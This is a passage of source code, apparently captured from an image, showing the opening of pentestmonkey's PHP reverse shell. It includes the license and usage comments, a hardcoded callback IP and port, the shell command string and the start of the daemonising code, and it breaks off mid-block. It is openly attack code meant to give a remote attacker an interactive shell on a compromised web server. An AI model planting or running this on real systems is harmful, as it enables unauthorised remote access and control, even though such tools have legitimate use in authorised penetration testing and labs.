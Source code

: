 ```
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.17';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
```